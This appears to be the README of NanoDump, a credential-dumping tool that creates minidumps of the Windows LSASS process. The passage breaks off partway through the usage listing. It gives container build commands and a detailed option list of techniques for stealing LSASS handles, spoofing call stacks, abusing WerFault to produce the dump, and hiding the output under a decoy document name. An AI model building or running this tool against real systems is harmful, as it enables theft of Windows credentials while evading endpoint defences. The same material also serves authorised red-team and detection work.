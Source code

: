 # NanoDump

A flexible tool that creates a minidump of the LSASS process.

![screenshot](resources/demo.png)

<h2>Table of contents</h2>

<ol>
  <li><a href="#usage">Usage</a></li>
  <li><a href="#features">Features</a></li>
  <li><a href="#combinations">Combining Techniques</a></li>
  <li><a href="#examples">Examples</a></li>
  <li><a href="#redirectors">HTTPS Redirectors</a></li>
</ol>

<h2 id="usage">1. Usage</h2>

```bash
# compiler
podman build -t nanodump -f compile.Dockerfile

# run container to retrieve compiled .exe
podman run -it --name nanodump -d nanodump
podman cp nanodump:/nanodump/dist/nanodump.x64.exe .

# blow away compiler
podman stop nanodump
podman system prune -f
```

```
usage: Z:\nanodump.x64.exe [--write C:\Windows\Temp\doc.docx] [--valid] [--duplicate] [--elevate-handle] [--duplicate-elevate] [--seclogon-leak-local] [--seclogon-leak-remote C:\Windows\notepad.exe] [--seclogon-duplicate] [--spoof-callstack] [--silent-process-exit C:\Windows\Temp] [--shtinkering] [--fork] [--snapshot] [--getpid] [--help]
Dumpfile options:
    --write DUMP_PATH, -w DUMP_PATH
            filename of the dump
    --valid, -v
            create a dump with a valid signature
Obtain an LSASS handle via:
    --duplicate, -d
            duplicate a high privileged existing LSASS handle
    --duplicate-elevate, -de
            duplicate a low privileged existing LSASS handle and then elevate it
    --seclogon-leak-local, -sll
            leak an LSASS handle into nanodump via seclogon
    --seclogon-leak-remote BIN_PATH, -slt BIN_PATH
            leak an LSASS handle into another process via seclogon and duplicate it
    --seclogon-duplicate, -sd
            make seclogon open a handle to LSASS and duplicate it
    --spoof-callstack, -sc
            open a handle to LSASS using a fake calling stack
Let WerFault.exe (instead of nanodump) create the dump
    --silent-process-exit DUMP_FOLDER, -spe DUMP_FOLDER
            force WerFault.exe to dump LSASS via SilentProcessExit
    --shtinkering, -sk
            force WerFault.exe to dump LSASS via Shtinkering
Avoid reading LSASS directly:
    --fork, -f
            fork the target process before dumping
    --snapshot, -s
            snapshot the target process before dumping
Avoid opening a handle with high privileges:
```